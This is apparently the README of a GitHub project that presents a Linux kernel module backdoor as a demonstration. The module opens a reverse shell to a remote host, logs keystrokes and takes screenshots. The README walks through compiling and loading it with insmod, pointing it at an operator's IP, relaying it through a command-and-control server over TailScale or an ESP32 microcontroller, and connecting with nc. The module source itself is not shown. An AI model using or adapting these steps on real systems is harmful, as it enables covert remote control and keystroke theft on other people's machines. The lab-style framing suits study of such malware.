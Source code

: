 # Linux Kernel Module Backdoor Demonstration

A simple example of a linux kernel module that implements a backdoor that can communicate with another computer, receive shell commands, and send the responses of those commands back, i.e., performs a `reverse shell`. In addition, it can take screenshots and read the user input (keylogger).

# Table of Contents  
* [Preparations](#preparations)  
* [How the code works](#how-the-code-works)
* [Connecting to the host on a local network](#connecting-to-the-host-on-a-local-network)
* [Connection between host and VM on different networks using TailScale and a simple command and control server (for example, another computer in a controlled network)](#connection-between-host-and-vm-on-different-networks-using-tailscale-and-a-simple-command-and-control-server-for-example-another-computer-in-a-controlled-network)
* [Connection between host and VM on local network using a microcontroller (ESP32)](#connection-between-host-and-vm-on-local-network-using-a-microcontroller-esp32)
* [Connection between host and VM on different networks using a microcontroller (ESP32) in a controlled network](#connection-between-host-and-vm-on-different-networks-using-a-microcontroller-esp32-in-a-controlled-network)

## Preparations

This kernel module was compiled in a Ubuntu 22.04 LTS virtual machine with the 6.3.5-060305-generic kernel version. After booting the VM, update the system and the kernel version to the same version running the following commands:

```
sudo apt update && sudo apt upgrade -y
```
```
sudo apt install wget
```
```
wget https://raw.githubusercontent.com/pimlie/ubuntu-mainline-kernel.sh/master/ubuntu-mainline-kernel.sh
```
```
chmod +x ubuntu-mainline-kernel.sh
sudo mv ubuntu-mainline-kernel.sh /usr/local/bin/
```
Replace `[KERNEL_VERSION]` with the desired version (In this case: `6.3.5-060305-generic`).
```
ubuntu-mainline-kernel.sh -c
sudo ubuntu-mainline-kernel.sh -i [KERNEL_VERSION]
```
```
sudo reboot
```

In the Makefile, replace the `obj-m` value with your file name (`backdoor.o` for this example) and the `[your_module_name]-objs` with the object files to be linked to the module. Then run the `make` command.

After that, you must have a `backdoor.ko` file. That's the compiled module that must be loaded. Before it, at the IP and PORT that the backdoor is connecting it's necessary to listen to that port with a TCP connection. In this example, we will do that in 4 different ways: 

1. Using a local python script to listen to the port in the host. Must be on a local connection.
2. Using a remote python script to connect other the host to the server and a server python script that listen to the backdoor and attacker ports in the server. Must have an public IP at the server network OR a VPN (in this example we will use TailScale). 
3. Using a microcontroller (ESP32) that simulates a simple local command and control server that redirects the messages from the VM to the host. We will use the ESP32, the host and the VM at a local network in this case.
4. (Only theoretical for now) Using the ESP32 as a simple remote command and control server. Must have a public IP at the ESP32 network OR a VPN that runs in the ESP32.

Assuming that the connection is already working, you can load the module with the command:

```
sudo insmod backdoor.ko
```

Now that the module is loaded, it is waiting for commands. You can send them using the open connection in the host and receive the response of the commands. In short, we have a `reverse shell`, but we don't have the terminal interface as we would normally have because we are executing the commands directly from the kernel module.

The python scripts implements the sockets and a basic interface to send and receive the messages.

After you are done, close the connection with the backdoor in the python script that you are using. Then you can remove the module in the VM using:

```
sudo rmmod backdoor
```

You can use
```
make clean
```
to remove the other files generated during the compile process.

Other approach is to use a shell script at the VM that executes in sequence the commands:
```
make
sudo insmod backdoor
sudo rmmod backdoor
make clean
```
## How the code works

`// TODO`

## Connecting to the host on a local network

To make the connection between the VM and the host in a local network, before compiling the C file, you must change the `HOST_IP` and the `HOST_PORT` values in the `script_local.py` and the `SERVER_IP` and the `SERVER_PORT` values in the `functions.h` (VM) with your host IP and PORT that you wish to connect to in your host.

To find the host IP you can use the command:
```
ip addr
```
After changing them, you have to allow this connection in your host firewall (if necessary), and then you can run the python script
```
python3 script_local.py
```
to listen to that port in the host. Then you can load the module in the VM and start to send commands at the host.

## Connection between host and VM on different networks using TailScale and a simple command and control server (for example, another computer in a controlled network)

First, create a TailScale account and add your machines to your account. To each one of them will be assigned an IP that you will use in your connections.

Change the `SERVER_IP` and the `SERVER_PORT` values in the `script_remote.py` and `functions.h` (VM) to the IP and PORT of your server that you want to connect to. In the `server.py` script, change the `SERVER` to the server TailScale IP and ports `PORT1` and `PORT2` to the backdoor and attacker ports.

Configure the SSH in your server and allow SSH connections from your host. Now, use SSH to connect to your server using a username from the server and the server name or server ip that is in your TailScale account.
```
ssh username@server-name-or-IP
```
and run the `server.py` script.
```
python3 server.py
```
Then, you can load the module in the VM and open another shell in your host and run
```
python3 script_remote.py
```

## Connection between host and VM on local network using a microcontroller (ESP32)

First of all, you must change the `SSID` and the `PASSWORD` variables to the WiFi name and password of the network that you controls and the ports that you wish the 2 machines to connect to.

Then you can load the code in the ESP32 and turn it on. The microcontroller will wait to the 2 connections to be established and will start to redirect the messages between the 2 machines. The `SERVER_IP` and the `SERVER_PORT` values in the backdoor must be changed to the `ESP32 IP` and `PORT2` and then it will connect automatically when the module is loaded.

To connect the host, run
```
nc ESP32_IP ESP32_PORT1
```
or change the python script to connect to the `ESP32_IP` and `ESP32_PORT1` and run the script. Then the 2 machines will be connected via the microcontroller.

## Connection between host and VM on different networks using a microcontroller (ESP32) in a controlled network
Change the `SSID` and the `PASSWORD` variables to the WiFi name and password of the network that you controls and the ports that you wish the 2 machines to connect to.

`// TODO:`

`// Explain port fowarding through the router and the use of a VPN`

`// ROUTER_IP -> ESP32_IP, ROUTER_PORT -> ESP32_PORT1`

Then you can load the code in the ESP32 and turn it on. The microcontroller will wait to the 2 connections to be established and will start to redirect the messages between the 2 machines. The `SERVER_IP` and the `SERVER_PORT` values in the backdoor must be changed to the `ROUTER IP` (OR the `VPN IP`) and `PORT2` and then it will connect automatically when the module is loaded.

To connect the host, use
```
nc ROUTER_IP ROUTER_PORT
```
or change the python script to connect to the `ROUTER_IP` and `ROUTER_PORT` (OR the `VPN_IP` and `VPN_PORT`) and run the script. Then the 2 machines will be connected via the microcontroller.
